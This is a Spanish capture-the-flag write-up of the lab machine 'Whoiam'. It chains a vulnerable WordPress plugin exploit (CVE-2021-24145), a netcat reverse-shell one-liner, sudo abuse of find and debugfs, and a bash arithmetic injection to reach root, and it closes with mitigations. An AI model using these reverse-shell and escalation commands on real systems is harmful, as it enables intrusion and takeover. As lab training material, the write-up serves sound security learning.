


| Plataforma          | Docker Labs |
| ------------------- | ----------- |
| Dificultad          | Fácil       |
| IP de la Máquina    | 172.18.0.2  |
| Fecha de resolución | 03/10/2026  |
# 📑 WRITEUP: WHOIAM

> ℹ️ ****RESUMEN****
> - **IP Objetivo:** `172.18.0.2`
> - **Sistema Operativo:** Linux (Ubuntu) 🐧
> - **Descripción:** Laboratorio para practicar la explotación de WordPress mediante un plugin vulnerable (CVE-2021-24145) y escalada de privilegios con sudo (find).🌐
> - **Movimiento Lateral:** Pivoteo de Usuarios (`www-data` -> `rafa` -> `ruben`) 🔄
> - **Privilegios Obtenidos:** `root` 👑

---

## 🎯 FASE 1: RECONOCIMIENTO Y ENUMERACIÓN

### 💻 Conectividad Inicial
Determinamos el Sistema Operativo analizando el Time To Live (TTL) mediante un paquete ICMP:
```bash
ping -c 1 172.18.0.2
```


* **Diagnóstico:** TTL = `64`. Confirmamos directamente que se trata de un host **Linux**.

### 🔍 Mapeo de Puertos y Servicios
Lanzamos un escaneo con **Nmap** para mapear los puertos abiertos y descubrir sus servicios.


| Puerto   | Servicio | Versión Detectada   | Estado / Nota                                     |
| :------- | :------- | :------------------ | :------------------------------------------------ |
| `80/TCP` | HTTP     | Apache httpd 2.4.58 | 🌐 Servidor Web Activo (Aloja un sitio WordPress) |

#### Comando de Nmap utilizado:
```bash
sudo nmap -p- -sS -sV --min-rate 5000 -n -Pn --open 172.18.0.2
```

---

## ⚡ FASE 2: EXPLOTACIÓN (ACCESO INICIAL)

### 🌐 Auditoría Web y Enumeración de WordPress
Al explorar el puerto 80 y entrando al sitio web de la dirección IP obtenida, vemos esta página, pero no permite interacción alguna.


Entonces procedemos a realizar un fuzzing con gobuster para analizar si hay directorios.

```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-big.txt 
```


Este comando nos trajo varios puntos descubiertos para interactuar con la página.

SI ingresamos a `http://172.18.0.2/wp-admin` nos encontraremos con:


Intentamos realizar un bypass utilizando como usuario `admin' -- -` y una contraseña pero no fue posible acceder de esta manera.

Ingresamos a `http://172.18.0.2/backups` y encontramos el siguiente .zip:



Descargamos el .zip, realizamos un `unzip` y luego un `cat` sobre el archivo conseguido resultando en:


> ✅ **Credenciales obtenidas**
> Pudimos encontrar un usuario `developer` y la contraseña  `2wmy3KrGDRD%RsA7Ty5n71L^`

Se inició sesión en `/wp-login.php` como el usuario `developer` y la contraseña de forma exitosa.


Al revisar la sección de plugins instalados se identificó `Modern Events Calendar Lite` en una versión vulnerable a subida arbitraria de archivos (CVE-2021-24145).


### 💥 Obtención de la Shell

Se buscó el exploit correspondiente mediante `searchsploit`. Se descargó el script de ejecución remota de código (RCE) `php/webapps/50082.py`. Entonces El archivo subió una webshell a la ruta `http://172.18.0.2:80/wp-content/uploads/shell.php`


Para entablar una conexión más cómoda, se puso un listener a la escucha con netcat en la máquina de ataque `nc -lnvp 4444` Y se envió una reverse shell interactiva desde la webshell:

```bash
$ rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 172.18.0.1 4444 > /tmp/f
```


Y en nuestra terminal se obtuvo acceso al sistema bajo el contexto del usuario `www-data` al cual realizamos un `sudo -l` para consultar los permisos de sudoers:


---
## 🔄 FASE 3: MOVIMIENTO LATERAL (PIVOTEO)

### 1. De `www-data` a `rafa`

El output revela que podemos ejecutar el binario `/usr/bin/find` como el usuario `rafa` sin necesidad de contraseña:

Consultando con GTFOBins, podemos pivotar de la siguiente manera:

```bash
# Explotación de find para pivotar de usuario
sudo -u rafa /usr/bin/find . -exec /bin/bash \; -quit
```


Bajo la identidad del usuario `rafa`, volvemos a consultar sus capacidades dentro del sistema operativo:

```bash
sudo -l
```


### 2. De `rafa` a `ruben`

Detectamos que `rafa` posee permisos `sudo` para invocar el binario `/usr/sbin/debugfs` bajo el contexto de **ruben**:
```bash
# Se utiliza el binario de debugfs para pivotar hacia ruben
sudo -u ruben /usr/sbin/debugfs
# Dentro de la interfaz de debugfs ejecutamos una shell:
!/bin/bash
```


>[!Success] Escalada exitosa
>Ingresamos correctamente al usuario `ruben` en donde volvemos a revisar los permisos de sudoers para realizar la escalada final  

---

## 👑 FASE 4: ESCALADA DE PRIVILEGIOS FINAL

Una vez posicionados como el usuario `ruben`, examinamos el script `/opt/penguin.sh`, el cual solicita un valor numérico por entrada estándar y lo compara aritméticamente contra el valor `42`


Debido a que las comparaciones y evaluaciones aritméticas en Bash permiten interpretar expresiones y subshells en variables o arrays no sanitizados, se inyectó una ejecución de comandos en el prompt:

```bash
sudo /bin/bash /opt/penguin.sh
42+b[$(bash -p >&2)]
```

Validamos los privilegios finales obtenidos en la terminal activa:
```bash
whoami
```



```bash
# Output directo de la consola comprometida:
root
```

> ✅ ****MÁQUINA COMPLETADA****
> Intrusión consolidada con éxito. Completamos el laboratorio **Whoiam** encadenando un vector inicial web en WordPress y un pivoteo estructurado de credenciales locales hasta tomar el control de **`root`**.

---

## 🛠️ FASE 5: VULNERABILIDADES Y MITIGACIONES 

>[!DANGER] CWE-434

>[!Danger] Crítico 
> Permite el acceso inicial remoto sin autenticación. Un atacante externo puede ejecutar código arbitrario directamente en el servidor web desde internet, rompiendo la confidencialidad e integridad inicial de forma inmediata.

>[!Todo] Mitigación 
>antener todos los componentes, plantillas y plugins de WordPress actualizados a sus versiones estables más recientes para evitar vectores RCE conocidos.

>[!Warning] CWE-732

>[!Warning] Alto 
Permite un movimiento lateral y elevación interna. Aunque requiere que el atacante ya esté dentro del sistema (como `www-data`), la falta de restricciones permite saltar de un usuario a otro de forma trivial y garantizada sin conocer sus contraseñas.

>[!Todo] Mitigación
>Revisar y restringir los permisos otorgados en `/etc/sudoers`. Evitar que usuarios iniciales ejecuten comandos interactivos (`find`, `debugfs`) capaces de spawnear shells secundarias de otros usuarios.
